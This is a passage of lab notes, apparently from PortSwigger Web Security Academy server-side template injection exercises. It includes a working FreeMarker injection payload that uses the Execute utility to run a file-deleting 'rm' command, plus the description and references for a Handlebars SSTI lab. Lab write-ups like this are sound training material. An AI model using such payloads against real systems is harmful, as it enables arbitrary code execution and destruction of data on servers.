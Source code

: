 ![img](media/b9986dd5cde6e9f38fb447a29baabef6.png)

Payload to delete the file:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
${"freemarker.template.utility.Execute"?new()("rm /home/carlos/morale.txt")}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

04 Server-side template injection in an unknown language with a documented exploit
==================================================================================

This lab is vulnerable to server-side template injection. To solve the lab,
identify the template engine and find a documented exploit online that you can
use to execute arbitrary code, then delete the morale.txt file from Carlos's
home directory.

References:

-   http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html

-   https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

-   https://github.com/aadityapurani/NodeJS-Red-Team-Cheat-Sheet

Generated link:
https://0ab300360386552481b34d2700c600da.web-security-academy.net

The content of the message is reflected in the HTML inside a div element:

![img](media/50f8ab379f4f82c1d4da0400618b0d0b.png)
